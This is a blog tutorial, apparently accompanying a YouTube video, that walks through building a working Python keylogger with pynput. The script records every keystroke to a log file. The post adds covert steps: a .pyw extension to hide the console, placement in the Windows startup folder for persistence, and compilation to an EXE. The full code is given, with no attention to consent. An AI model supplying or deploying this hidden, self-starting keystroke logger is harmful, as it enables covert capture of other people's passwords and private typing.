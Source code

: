 ```yaml
---
templateKey: blog-post
title: "Python Keylogger"
date: 2017-12-15T12:00:00.000Z
category: YouTube
tags: [python, keyboard, logging, pynput]
image: feature.jpg
description: "This is a Python keylogger which will work on Windows, Mac and Linux. This script uses the pynput module. This python keylogger will store typed keys in a file in order of when they were typed."
disableToc: false
hidden: false
---
```


<youtube-video id="x8GbWt56TlY"></youtube-video>

## PIP

If you haven't used or setup pip before, go to my tutorial at [how-to-setup-pythons-pip](/blog/post/how-to-setup-pythons-pip/) to setup pip. This is needed to install pynput to get keys typed.

## Installing Pynput

We will be using the pynput module to listen to mouse events. To install this module execute `pip install pynput` in cmd. Watch the output to make sure no errors have occurred; it will tell you when the module has been successfully installed.

![Installing pynput](../how-to-get-mouse-clicks-with-python/pynput1.png)

To double-check that it was installed successfully, open up IDLE and execute the command `import pynput`; no errors should occur.

![Testing pynput](../how-to-get-mouse-clicks-with-python/pynput2.png)

## Building the Keylogger

Create a new Python file and import Key and Listener from pynput.keyboard and the logging module.

```python
from pynput.keyboard import Key, Listener
import logging
```

Next set a variable which points to where you want to save the logs; leave this as an empty string to save the log beside the python script. Then set up the logging module as shown below.

```python
log_dir = ""

logging.basicConfig(filename=(log_dir + "key_log.txt"), level=logging.DEBUG, format='%(asctime)s: %(message)s')
```

Then create a definition for keypresses called on_press which takes key as a parameter. In this definition, we want to log the key using the logging info method. The key will need to be casted to a string before logging it.

```python
def on_press(key):
    logging.info(str(key))
```

Next setup an instance of Listener and define the on_press method in a `with` statement and then `.join()` the thread to the main thread.

```python
with Listener(on_press=on_press) as listener:
    listener.join()
```

Now save the file with a .pyw file extension to make sure that the console doesn't appear when it's run.

![Save as .pyw](pyw.png)

Run the script in IDLE to make sure that you haven't made any errors. Errors will show up in here if some do occur.

## Autostart

To make the script run on startup first go to your startup folder. Hold down the windows button and press "R" or type run in the windows menu to make the run dialog appear.

![shell:startup example](run.png)

Now type `shell:startup` in the dialog and press enter. This will open a window at your startup folder.

Copy the keylogger into this folder and then create a new folder somewhere else for logs to be saved to. Make sure this folder is not in the startup folder or it will be opened every time the computer has started. Open the keylogger in IDLE and now change the log_dir to the location of the folder you just created. Make sure this folder path uses forward slashes ('/') and contains a forward slash at the end.

## Stopping the Keylogger

To stop the keylogger, open up task manager and look for anything named python as shown below due to windows just showing program names. If you have an older version of windows, I recommend looking for pythonw.exe. Right-click on this and end the task.

![Python in task manager](taskmgr.png)

## Final Script

```python
from pynput.keyboard import Key, Listener
import logging

log_dir = ""

logging.basicConfig(filename=(log_dir + "key_log.txt"), level=logging.DEBUG, format='%(asctime)s: %(message)s')

def on_press(key):
    logging.info(str(key))

with Listener(on_press=on_press) as listener:
    listener.join()
```

## Compile to EXE

Want to convert this .py to a .exe? Head over to my tutorial at [convert-py-to-exe](/blog/post/convert-py-to-exe/) to do it in a few easy steps. This tutorial also shows you how to remove the console that shows up, make one file executables and even add an icon.

Converting to .exe will allow the script to run on Windows computers without python installed (python is pre-installed on Mac and most Linux computers)

## Common Issues and Questions

### It doesn't work (general things to try)

Make sure you run the script in IDLE to check for errors you have made

### 'python' is not recognized as an internal or external command

Python hasn't been installed or it hasn't been installed properly. Go to [how-to-setup-pythons-pip](/blog/post/how-to-setup-pythons-pip/) and follow the tutorial. Just before you enter the scripts folder into the path variable, remove the "\scripts\" part at the end. You will also want to add another path with "\scripts\" to have pip.

### Where are the log files?

They will be located next to the python file (in the current directory for more advanced users). If it hasn't appeared, make sure you run the script in IDLE to check for errors you have made.

### ModuleNotFoundError/ImportError: No module named 'pynput'

Did you install pynput? This error will not occur if you installed it properly. If you have multiple versions of Python, make sure you are installing pynput on the same version as what you are running the script with.

### I got a SyntaxError

Syntax errors are caused by you and there is nothing I can offer to fix it apart from telling you to read the error. They always say where the error is in the output using a ^. Generally, people that get this issue have incorrect indentation, brackets in the wrong place or something spelt wrong. You can read about SyntaxError on Python's docs [here](https://docs.python.org/2/tutorial/errors.html#syntax-errors).

### How can I stop the listener?

As documented at [https://pythonhosted.org/pynput/keyboard.html](https://pythonhosted.org/pynput/keyboard.html) you can use pynput.keyboard.Listener.stop() to stop listening.

### "Open command window here" isn't shown when I shift right-click?

Make sure you are holding down shift. If you are using new versions of Windows, this has been replaced by "Open PowerShell Window Here". Using this method will work exactly the same for this tutorial; so go ahead and use PowerShell.
